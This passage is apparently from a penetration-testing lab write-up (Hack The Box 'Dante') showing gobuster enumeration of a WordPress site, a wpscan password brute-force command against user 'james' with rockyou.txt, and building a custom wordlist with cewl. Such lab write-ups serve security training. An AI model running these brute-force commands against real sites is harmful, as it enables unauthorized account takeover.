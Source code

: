 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 338] [--> http://10.10.110.100:65000/wordpress/wp-content/]                                                
/wp-includes          (Status: 301) [Size: 339] [--> http://10.10.110.100:65000/wordpress/wp-includes/]                                               
/wp-admin             (Status: 301) [Size: 336] [--> http://10.10.110.100:65000/wordpress/wp-admin/]  
```

It doesn't return any `swp` file...

Let's review all I've found so far...
- The `todo.txt` says that the user `james` is using weak password.
- I found `james` from `wpscan`.

Let's try this with `rockyou.txt` first!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo wpscan --url http://10.10.110.100:65000/wordpress --usernames 'james' --passwords /usr/share/wordlists/rockyou.txt

<SNIP>
```

I waited for quite long, but it took forever since the wordlist is too large.
Why don't we just make our own wordlist using `cewl`?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cewl http://10.10.110.100:65000/wordpress/ -d 5 > dante_wp_wordlist.txt


┌──(kali㉿kali)-[~/htb]
└─$ wc -l dante_wp_wordlist.txt 
494 dante_wp_wordlist.txt


┌──(kali㉿kali)-[~/htb]
└─$ head dante_wp_wordlist.txt 
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
wrapper
inner
footer
Dante
LLC
header
menu
the
toggle
```
